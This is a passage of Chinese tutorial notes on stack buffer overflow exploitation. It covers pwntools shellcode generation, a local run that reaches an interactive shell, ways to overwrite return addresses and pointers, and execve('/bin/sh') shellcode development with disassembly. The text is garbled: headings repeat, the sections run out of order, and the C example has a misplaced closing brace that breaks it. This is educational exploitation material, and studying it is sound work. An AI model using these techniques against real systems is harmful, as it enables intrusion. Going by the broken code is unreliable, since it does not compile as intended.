 
## 攻击
- `process（）`建立脚本和二进制程序的连接
- `shellcraft.i386.sh（）`用以生成i386下的shellcode
- `asm（）`将shellcode由汇编指令转换成机器码。
- Temp接收s[]的地址
- `sendline（）`将payload输入到二进程程序中
- `interactive（）`将控制交还给用户，以便于我们操作shell。

## 攻击
效果如下：

```sh
$ python p.py
[+] Starting local process './test': pid 65319
[*] Switching to interactive mode
$ echo u got it
u got it
$ exit
[*] Got EOF while reading in interactive
$
[*] Process './stack_overflow' stopped with exit code 0 (pid 65319)
[*] Got EOF while sending in interactive

```


## 如何利用缓冲区溢出
- 覆盖局部变量
    -尤其是函数指针
- 覆盖错误句柄
- 覆盖存储在栈帧上的指针
- 覆盖返回地址
    - 当函数返回时改变EIP

## 基础栈溢出
- 覆盖返回地址让攻击者控制程序执行流
- 与普通崩溃不同的是，这可以允许任意代码执行
    - 要执行代码称为 "shellcode"
    - 早期，攻击者利用shellcode来获取远程shell
- 例子：系统调用`execve`：用于执行一个二进制程序
    - `execve("/bin/sh")`，一种获取远程shell的常见方式。

## shellcode开发
编写C语言程序及其相应汇编代码
```c
void    main()    {
char    *name[2];
}
name[0]    =    "/bin/sh";
name[1]    =    NULL;
execve(name[0],    name,    NULL);
```
```
0x80002bc    <__execve>:      pushl %ebp
0x80002bd    <__execve+1>:    movl %esp,%ebp
0x80002bf    <__execve+3>:    pushl %ebx
    The    procedure    prelude.
0x80002c0    <__execve+4>:    movl $0xb,%eax
    Copy    0xb    (11    decimal)    onto    the    stack.    This    is    the
    index    into    the    syscall table.        11    is    execve.
0x80002c5    <__execve+9>:    movl 0x8(%ebp),%ebx
```